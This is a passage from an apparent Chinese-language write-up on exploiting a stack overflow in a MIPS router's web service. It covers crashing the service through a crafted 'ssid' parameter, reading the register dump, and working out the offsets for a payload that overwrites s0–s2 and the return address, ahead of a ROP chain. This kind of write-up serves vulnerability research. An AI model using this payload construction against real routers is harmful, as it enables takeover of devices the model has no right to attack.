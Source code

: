 使用 wireshark 抓包，查看发送的数据包：

[![](https://p3.ssl.qhimg.com/dm/1024_338_/t0137f835103bd13e02.png)](https://p3.ssl.qhimg.com/dm/1024_338_/t0137f835103bd13e02.png)
- 注意这里的 ssid 里的内容需要加上 unquote 函数对 %0A 先进行解码，因为 python requests 发送数据包时会默认对参数值进行编码。
结果会发现远程路由器服务崩溃，gdbserver 抛出了 SIGSEGV 的栈溢出信号。

[![](https://p5.ssl.qhimg.com/dm/1024_206_/t01cbb19d93fd35bdf1.png)](https://p5.ssl.qhimg.com/dm/1024_206_/t01cbb19d93fd35bdf1.png)



## 漏洞利用

### 使用 mipsrop 插件查找 ROP

崩溃之后，查看上下文环境，查看 pc，sp 寄存器的值确定偏移：

[![](https://p5.ssl.qhimg.com/dm/900_1024_/t01f16b29e1b8081890.png)](https://p5.ssl.qhimg.com/dm/900_1024_/t01f16b29e1b8081890.png)

```
$t6 : 0x61636661 ("afca"?)   (a*218+t6)
$t7 : 0x0
$s0 : 0x61616261 ("abaa"?)，实际上是大端，应该是aaba（a*2+s0）
$s1 : 0x61616361 ("acaa"?) (a*6+s1)
$s2 : 0x61616461 ("adaa"?)
$s3 : 0x5
$s4 : 0x0
$s5 : 0x7
$s6 : 0x0
$s7 : 0x0064d6bc → 0x0064e7f4 → 0x000a0003
$t8 : 0x2
$t9 : 0x77faf980 → 0x3c1c0002
$k0 : 0x0
$k1 : 0x0
$s8 : 0x7d7fedf8 → "abwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaac[...]"
$pc : 0x61616561 ("aeaa"?)
$sp : 0x7d7fed50 → "aafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaa[...]"
$hi : 0x36c67
$lo : 0x6338ceeb
$fir : 0x739300
$ra : 0x61616561 ("aeaa"?)
$gp : 0x00594d80 → 0x00000000
```

计算得出偏移：

```
sp的偏移为 "/%0A"*0x55+ "a"*2+"aaaa"*4

payload="/%0A"*0x55+'a'*2
payload+=s0
payload+=s1
payload+=s2
payload+=pc,ra
```
